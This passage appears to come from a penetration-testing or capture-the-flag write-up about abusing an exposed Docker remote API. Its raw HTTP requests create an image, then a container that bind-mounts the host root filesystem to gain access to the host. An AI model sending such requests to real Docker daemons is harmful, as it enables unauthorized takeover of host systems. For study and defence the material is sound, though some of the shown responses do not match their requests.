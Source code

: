 The reponse came confirming the creation of the image successfully
```http
HTTP/1.1 201 Created
Server: nginx/1.10.3 (Ubuntu)
Date: Tue, 03 Oct, 2017 15:52:16 GMT
Content-Type: application/json
Content-Length: 90
Connection: Close
{"Id":"89a1eeb4c9a48a4d3a7bc300fc0b6164d32f2bd65b84e15ef60954b8bb38125d","Warnings":null}
```

We can confirm that our image has been created by navigating to this URL: `http://10.0.5.10:4000/images/json`. It should be the first one from the top.

Next step is to create a container from this image, and according to the documentation, it could be done using the following request:

```http
POST /containers/create HTTP/1.1
Host: 10.0.5.10:4000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 207
{
	"Image": "sha256:00c1fade7392ddfdc9541735334cf52bc7aa938c52c03fd8ab8e60268de55625",
	"HostConfig": {
	"Binds": ["/:/root/hostroot"]}
}
```

That's where the magic happens. Assuming that the user which is running the docker daemon is privileged and able to view and edit all files on the host system, we simply _map_ or _bind_ the root's directory to a directory create inside the container itself. Theoritically, we should be able to browse the **HOST**'s file system `/` from inside the **CONTAINER** by navigating into `/root/hostroot/` in the container system.

In case of a successful container creation, the server's response will look like this:
```http
HTTP/1.1 201 Created
Server: nginx/1.10.3 (Ubuntu)
Date: Tue, 03 Oct, 2017 15:54:16 GMT
Content-Type: application/json
Content-Length: 9140
Connection: Close
{"stream":"Step 1 : FROM ubuntu:16.04\n"}
...
SNIP
...
{"stream":"Removing intermediate container 51234bca51\n"}
{"stream":"Successfuly built 00c522fa85c\n"}
```
